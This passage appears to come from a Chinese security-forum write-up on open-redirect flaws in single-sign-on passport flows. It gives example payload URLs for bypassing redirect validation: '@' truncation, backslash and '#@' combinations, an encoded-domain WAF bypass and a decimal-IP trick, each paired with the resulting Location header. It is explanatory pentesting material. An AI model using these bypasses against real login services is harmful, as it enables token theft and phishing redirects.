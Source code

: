 5.URL跳转漏洞
=========

大家也肯定都想关注些价值比较高的漏洞，所以把统一认证场景下的URL跳转漏洞放在最后讲讲。  
在统一认证下，经常会触发URL跳转的地方有三处：（1）passport返回给微服务token时候（2）setcookie接口（3）退出登录的时候。  
大概的一个模型是：

```php
http://passport.admintony.com/login?target=http://s-a.admintony.com&token=xx-xx-xx
```

常规的绕过方法咱就不说了，主要讲一下这两年遇到过新奇的方法：  
1、@符号直接截断

```php
http://passport.admintony.com/login?target=http://baidu.com@s-a.admintony.com&token=xx-xx-xx

Location:http://baidu.com
原理：@后面直接截断了。
```

2、\\@ /@ #@ ?@等组合

```php
http://passport.admintony.com/login?target=http://baidu.com\@s-a.admintony.com&token=xx-xx-xx

Location:http://baidu.com\@s-a.admintony.com
原理：程序在判断存在@的时候，只判断@后面的域名是否合法，而忘记判断前面是否存在\/#?等内容
```

3、中文域名绕过waf  
遇到过一次这样的情况，target参数直接输入http://aaa可以跳转，[http://aaaa跳出了waf](http://xn--aaaawaf-vp4kt0xtm6n)。

```php
=== 请求1
    http://passport.admintony.com/login?target=http://aaa&token=xx-xx-xx

    Location:http://aaa

=== 请求2
  http://passport.admintony.com/login?target=http://aaa%21&token=xx-xx-xx

    Location:http://aaa!
=== 请求3(%65 == s)
  http://passport.admintony.com/login?target=http://aaa%65&token=xx-xx-xx

    waf拦截
=== 请求4（a.中国）
  http://passport.admintony.com/login?target=http://a.%2d%fd&token=xx-xx-xx

    Location:http://a.%2d%fd
    造成URL跳转。
```

4、目标中不能出现小数点  
target里面不能出现小数点，如果出现则被程序拦，但直接 **<http://a>** 就可以跳转，此时可以使用数字地址进行绕过：

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bd04a990b667f7c22f4e8dd7758cf6eb7b223efe.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bd04a990b667f7c22f4e8dd7758cf6eb7b223efe.png)

target改为 **http: //1920103026** 跳转成功，完成绕过。